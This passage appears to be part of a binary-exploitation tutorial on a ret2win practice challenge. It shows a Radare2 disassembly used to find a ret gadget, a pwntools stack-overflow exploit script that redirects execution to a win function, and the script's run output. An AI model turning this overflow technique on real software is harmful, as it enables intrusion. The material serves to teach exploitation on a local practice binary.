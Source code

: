 {% tab title="Radare2" %}
```nasm
[0x004011eb]> pdf@sym.deregister_tm_clones
            ; CALL XREF from sym.__do_global_dtors_aux @ 0x401171(x)
┌ 31: sym.deregister_tm_clones ();
│           0x004010f0      b848404000     mov eax, obj.stdout         ; obj.__TMC_END__
│                                                                      ; 0x404048
│           0x004010f5      483d48404000   cmp rax, obj.stdout         ; obj.__TMC_END__
│                                                                      ; 0x404048
│       ┌─< 0x004010fb      7413           je 0x401110
│       │   0x004010fd      b800000000     mov eax, 0
│       │   0x00401102      4885c0         test rax, rax
│      ┌──< 0x00401105      7409           je 0x401110
│      ││   0x00401107      bf48404000     mov edi, obj.stdout         ; obj.__TMC_END__
│      ││                                                              ; 0x404048
│      ││   0x0040110c      ffe0           jmp rax
..
└      └└─> 0x00401110      c3             ret
```
{% endtab %}
{% endtabs %}

The address of this return is `0x401110`. Let's add this to our payload:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = process('./win64')

g_ret = 0x401110
f_win = 0x401196

payload = b'A' * 56
payload += p64(g_ret) 
payload += p64(f_win)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

You'll notice that I label my variables based on what they are. `f` variables are functions, `g` variables are gadgets. More on what gadgets are when we get to ROP.

Running this:

```nasm
$ python3 exploit.py 
[+] Starting local process './win64': pid 21192
[*] Switching to interactive mode
Can you figure out how to win here?
cat: flag.txt: No such file or directory
[*] Got EOF while reading in interactive
$ 
[*] Process './win64' stopped with exit code -11 (SIGSEGV) (pid 21192)
[*] Got EOF while sending in interactive
```
